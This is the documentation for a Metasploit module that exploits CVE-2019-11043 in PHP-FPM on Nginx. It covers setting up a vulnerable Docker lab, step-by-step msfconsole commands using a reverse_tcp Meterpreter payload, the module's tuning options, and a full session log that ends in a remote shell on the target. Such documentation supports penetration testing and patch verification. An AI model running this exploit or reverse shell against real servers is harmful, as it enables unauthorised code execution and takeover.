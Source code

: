 This module exploits an underflow vulnerability in versions 7.1.x below 7.1.33,
7.2.x below 7.2.24 and 7.3.x below 7.3.11 of PHP-FPM on Nginx. Only servers
with certains Nginx + PHP-FPM configurations are exploitable. This is a port of
the original neex's exploit code (see refs.). First, it detects the correct
parameters (Query String Length and custom header length) needed to trigger
code execution. This step determines if the target is actually vulnerable
(Check method). Then, the exploit sets a series of PHP INI directives to create
a file (`/tmp/a`) locally on the target, which enables code execution through a
query string parameter (`?a=<cmd>`). This is used to execute normal payload
stagers. Finally, this module does some cleanup by killing local PHP-FPM
workers (those are spawned automatically once killed) and removing the created
local file (`/tmp/a`).

## Vulnerable Application
- Install Nginx on Linux (`apt-get install nginx`)
- get the vulnerable PHP:

```
git clone https://github.com/php/php-src
# checkout the fix
git -C php-src checkout ab061f95ca966731b1c84cf5b7b20155c0a1c06a
# checkout the commit previous to the fix
git -C php-src checkout HEAD~1
```

- make sure the default Nginx configuration contains these entries and no
  script existence checks (like `try_files`):

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

See original PoC for details: https://github.com/neex/phuip-fpizdam

An easiest way to setup a vulnerable instance is to use the docker
configuration provided by the author
(https://github.com/neex/phuip-fpizdam/tree/master/reproducer)

## Verification Steps

  Preparing the target:

  1. `git clone https://github.com/neex/phuip-fpizdam`
  2. `cd phuip-fpizdam/reproducer/`
  3. `docker build -t reproduce-cve-2019-11043 .`
  4. `docker run --rm -p 192.168.6.6:8080:80 --name reproduce-cve-2019-11043 reproduce-cve-2019-11043`

  Running the exploit:

  1. `./msfconsole`
  2. `use exploit/multi/http/php_fpm_rce`
  4. `set RHOSTS 192.168.6.6`
  5. `set RPORT 8080`
  4. `set TARGETURI /script.php`
  6. `set PAYLOAD php/meterpreter/reverse_tcp`
  7. `set LHOST 192.168.6.6`
  8. `run`

## Options

   **TARGETURI**
   Path to a PHP page. This must be a valid page.

## Advanced Options

  **MinQSL**
  Minimum query string length (QSL). The QSL detection engine will iterate
  starting from this value (1500 by default). This option is required.

  **MaxQSL**
  Maximum query string length (QSL). The QSL detection engine will iterate
  until this value is reached (1950 by default). This option is required.

  **QSLHint**
  Query string length hint. This value will be used as a QSL candidate. Note
  that setting this value skips the QSL detection.

  **QSLDetectStep**
  Query string length detect step. The QSL detection engine will iterate with
  this step value (5 by default). This option is required.

  **MaxQSLCandidates**
  Maximum query string length candidates. When the number of QSL candidates
  found during the QSL detection phase is greater than this value (10 by
  default), this indicates that something went wrong and we were not able to
  detect the correct values. This option is required.

  **MaxQSLDetectDelta**
  Maximum query string length detection delta. This value is the maximum
  distance between the candidate and the extended values (10 by default). For
  example, with a value of 20 and QSLDetectStep set to 5, candidate [1700] will
  be extended to [1680, 1685, 1690, 1695, 1700]. This option is required.

  **MaxCustomHeaderLength**
  Maximum custom header length. This value is the maximum length that will be
  used for the custom header during the parameters detection (256 by default).
  This option is required.

  **CustomHeaderLengthHint**
  Custom header length hint. This value will be used as the custom header
  length. Note that setting this value skips the custom header length
  detection.

  **DetectMethod**
  Method that will be used to detect if the target is vulnerable. Available
  methods:

  1. `session.auto_start`: this method consist in setting the
  `session.auto_start` PHP option to 1. If the response contains `PHPSESSID=`
  set-cookie value, this means the PHP option has been correctly set and the
  target is vulnerable.
  2. `output_handler.md5`: this method consist in setting the `output_handler`
  PHP option to `md5`. If the response is a md5 hash (16 characters), this
  means the PHP option has been correctly set and the target is vulnerable.


## Scenarios

### Ubuntu 18.04 + nginx 1.14.0 + PHP 7.1.33dev (fpm-fcgi) (built: Feb 14 2020 16:48:15)

```
msf5 > use exploit/multi/http/php_fpm_rce
msf5 exploit(multi/http/php_fpm_rce) > set RHOSTS 192.168.6.6
RHOSTS => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > set RPORT 8080
RPORT => 8080
msf5 exploit(multi/http/php_fpm_rce) > set TARGETURI /script.php
TARGETURI => /script.php
msf5 exploit(multi/http/php_fpm_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf5 exploit(multi/http/php_fpm_rce) > set LHOST 192.168.6.6
LHOST => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > run

[*] Started reverse TCP handler on 192.168.6.6:4444
[*] Sending baseline query...
[*] Detecting QSL...
[+] The target is probably vulnerable. Possible QSLs: [1765]
[*] Doing sanity check...
[*] Detecting attack parameters...
[+] Parameters found: QSL=1760, customh_length=69
[+] Target is vulnerable!
[*] Performing attack using php.ini settings...
[+] Success! Was able to execute a command by appending 'which+which'
[*] Trying to cleanup /tmp/a...
[+] Cleanup done!
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.6.6
[*] Meterpreter session 1 opened (192.168.6.6:4444 -> 192.168.6.6:59177) at 2020-02-14 12:03:45 -0600
[+] Session created
[*] Remove /tmp/a and kill workers...
[+] Done!

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 832efebeac57
OS          : Linux 832efebeac57 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
